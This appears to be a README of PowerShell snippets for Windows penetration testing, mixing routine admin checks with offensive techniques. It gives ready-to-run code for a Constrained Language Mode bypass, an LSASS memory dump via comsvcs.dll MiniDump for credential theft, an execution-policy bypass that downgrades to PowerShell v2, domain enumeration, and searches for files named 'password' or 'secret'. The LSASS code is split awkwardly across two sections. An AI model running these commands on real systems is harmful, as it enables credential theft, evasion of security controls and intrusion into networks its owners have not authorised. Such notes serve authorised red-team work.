# Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
	`$ExecutionContext.SessionState.LanguageMode   `

#Check if CredGuard is switched ON. (True = On)

	'CredentialGuard' -match ((Get-ComputerInfo).DeviceGuardSecurityServicesConfigured)   

#Set Proxy Settings Manually in Powershell (enter in Creds)

	$Wcl=New-Object System.Net.WebClient   
	$Creds=Get-Credential   
	$Wcl.Proxy.Credentials=$Creds   
	Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

# CLM Bypass   
	#Path to Powershell
	$CMDLine = "$PSHOME\powershell.exe"

	#Getting existing env vars
	[String[]] $EnvVarsExceptTemp = Get-ChildItem Env:* -Exclude "TEMP","TMP"| % { "$($_.Name)=$($_.Value)" }

	#Custom TEMP and TMP
	$TEMPBypassPath = "Temp=C:\windows\temp"
	$TMPBypassPath = "TMP=C:\windows\temp"

	#Add the to the list of vars
	$EnvVarsExceptTemp += $TEMPBypassPath
	$EnvVarsExceptTemp += $TMPBypassPath

	#Define the start params
	$StartParamProperties = @{ EnvironmentVariables = $EnvVarsExceptTemp }
	$StartParams = New-CimInstance -ClassName Win32_ProcessStartup -ClientOnly -Property $StartParamProperties

	#Start a new powershell using the new params
	Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $CMDLine
	ProcessStartupInformation = $StartParams
	}

	#lsass dump
	$processes = Get-Process
	$location = Get-Location

#.NET Framework Versions in place
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse |
Get-ItemProperty -name Version, Release -EA 0 |
Where-Object { $_.PSChildName -match '^(?!S)\p{L}'} |
Select-Object @{name = ".NET Framework"; expression = {$_.PSChildName}},
@{name = "Product"; expression = {$Lookup[$_.Release]}},Version, Release
```

#LSASS Dump
```
$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
		rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression
```


#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
```
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12
```

#Execute Powershell with Exec bypass and stay in Version 2
```
powershell.exe -Version 2 -ExecutionPolicy bypass
```

#Powershell Specific Tooling

# PowerSharpPack
```
PowerSharpPack -SharpShares -Command "--shares"
```

#Domain Enumeration

#Group Membership  
```
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object
```

#Aliases
```
dir = Get-ChildItem
```

#Current Domain Password Policy
```
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}
```


#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'
```
get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv
```

#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):
```
get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv
```

